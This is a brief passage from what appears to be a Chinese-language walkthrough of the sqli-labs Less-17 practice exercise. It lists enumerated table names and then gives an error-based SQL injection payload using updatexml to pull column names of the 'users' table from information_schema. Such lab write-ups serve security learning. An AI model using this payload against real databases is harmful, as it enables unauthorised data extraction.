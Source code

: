 ![Less-17_2](./img/Less-17_2.PNG)



爆破得到的数据表是

~~~ tex
emails,referers,uagents,users
~~~



+ 爆破列名

~~~ shell
admin
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),0x7e),1)#
~~~
